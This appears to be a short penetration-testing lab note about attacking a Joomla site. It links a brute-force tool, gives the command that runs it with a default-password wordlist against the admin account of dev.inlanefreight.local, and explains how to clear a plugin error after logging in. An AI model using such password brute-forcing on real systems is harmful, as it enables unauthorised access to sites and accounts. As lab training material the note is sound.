 https://github.com/ajnik/joomla-bruteforce

```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin -v
```

login at `/administrator`

If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.